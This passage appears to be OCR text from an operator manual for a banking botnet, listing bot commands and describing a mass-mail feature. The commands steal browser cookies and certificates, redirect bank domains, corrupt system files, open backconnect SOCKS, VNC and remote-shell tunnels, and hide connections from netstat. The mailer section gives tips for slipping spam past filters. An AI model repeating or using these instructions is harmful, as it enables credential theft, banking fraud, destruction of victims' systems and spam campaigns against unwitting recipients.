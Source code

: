   
4\. Commands  
  
**user\_execute <url>** \[execute given file\]  
**user\_execute <url> -f** \[execute given file, manual bot update that overwrites the current version\]  
**user\_cookies\_get** \[Get IE cookies\]  
**user\_cookies\_remove** \[Remove IE cookies\]  
**user\_certs\_get** \[Get .p12 certificates. Password: pass\]  
**user\_certs\_remove** \[Remove certificates\]  
**user\_homepage\_set <url>** \[Set browser home page\]  
**user\_flashplayer\_get** \[Get user's .sol files\]  
**user\_flashplayer\_remove** \[Remove user's .sol files\]  
**url\_open <url>** \[open given URL in a browser\]  
**dns\_filter\_add <hostname> <ip>** \[Add domain name for redirect(blocking) \*bankofamerica.com\* 127.0.0.1\]  
**dns\_filter\_remove <url>** \[Remove domain name from redirect(blocking)\]  
**user\_destroy** \[Corrupt system vital files and reboot the system. Requires elevated privileges\]  
**user\_logoff** \[Logoff currently logged in user\]  
**os\_reboot** \[Reboot the host\]  
**os\_shutdown** \[Shutdown the host\]  
**bot\_uninstall** \[Remove bot file and uninstall it\]  
**bot\_update <url>** \[Update bot configuration file. Requires to use the same the crypt. The path is set in url\_config\]  
**bot\_bc\_add socks <ip> <port>** \[Connect Bot > Backconnect Server > Socks5 | Run backconnect.exe listen -cp:1666 -bp:9991 on BC server / -bp is set when the command is launched, -cp is required for Proxifier/Browser...\]  
**bot\_bc\_add vnc <ip> <port>** \[Connect Bot > Backconnect Server > VNC Remote Display |  Run backconnect.exe listen -cp:1666 -bp:9991 on BC server / -bp is set when the command is launched, -cp is required for UltraVNC client\]  
**bot\_bc\_add cmd <ip> <port>** \[Connect Bot > Backconnect Server > Remote Shell | Run backconnect.exe listen -cp:1666 -bp:9991 on BC server / -bp is set when the command is launched, -cp is required for telnet/putty client \]  
**bot\_bc\_remove <service> <ip> <port>** \[Disconnect from the bot and hide connections from 'netstat' output\]  
**close\_browsers** \[close all browser processes\]

  
And one part related to some new features:  

**Q:** How does Mailer works?  
**A:** This feature allows you to create mass-email campaigns using standard PHP tools.  
For this feature to work correctly you need to download the script \[Download Script\] and put it in www-root directory on one of the hosts that will be used to perform the mass-email campaign - make sure you turn off the following in php.ini; magic\_quotes\_gpc = Off and safe\_mode = Off  
After that press \[ Config \] and fill in \[Master E-Mail (for checkup) parameters: "name ; email" Your email for checking\] and Mailer-script URL: http://www.host.com/mailer.php  
It's possible to create a campaign using a email address list collected by a Bot using "For BotID" button or a new list name;email  
Macros are supported in в Subject/Body/Attach.  
{name} - Receiver name | {email} - Receiver E-mail | {random} - random chars | {rand0m} - random long number  
Recommendation: To avoid being blocked by spam-filters use macro name@{hostname} in Sender ("email" or "name ; email") field - in this case the real domain name of the sending host will be used and your emails will not end up in Spam folder.  
  